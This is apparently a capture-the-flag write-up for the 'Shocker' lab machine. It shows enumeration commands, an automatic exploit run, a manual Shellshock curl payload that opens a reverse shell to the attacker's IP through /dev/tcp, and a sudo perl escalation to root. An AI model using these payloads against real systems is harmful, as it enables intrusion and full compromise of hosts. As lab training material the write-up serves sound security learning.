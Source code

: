 ## Shocker

Difficulty: Easy

### User Flag

```
nmap 10.10.10.56 -T4
```

![nmap](https://user-images.githubusercontent.com/58514930/218160762-10b55d29-7427-4048-82b1-3e05012477aa.png)

<br>

```
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/big.txt -t 30
```

![first_gobuster](https://user-images.githubusercontent.com/58514930/218160863-9aea4a75-9dd0-4439-ab3a-f9f5230bd871.png)

<br>

```
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/big.txt -t 30 -x sh,cgi,pl
```

![second_gobuster](https://user-images.githubusercontent.com/58514930/218161145-9e443fc3-4a0f-4584-923e-184983408146.png)

<br>

#### Automatic Exploit

```
python2 exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.3 lport=3333 pages=/cgi-bin/user.sh
```

![automaticExploit](https://user-images.githubusercontent.com/58514930/218161283-6ec7ae19-e7e7-4c26-9af9-5eddc4e9f981.png)

<br>

#### Manual Exploit

```
curl -H 'Cookie:() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.14.3/3333 0>&1 &' http://10.10.10.56/cgi-bin/user.sh
```

![manualExploit](https://user-images.githubusercontent.com/58514930/218161373-5cac8aeb-9cdc-4af0-9cc7-bcc31fd9ecd7.png)

<br>

### Root Flag

Looking at sudo -l, we find perl with root permissions.

```
sudo perl -e 'exec "/bin/sh";'
```

![root](https://user-images.githubusercontent.com/58514930/218161441-36e405f5-f939-43b9-984b-d321ae6021ac.png)

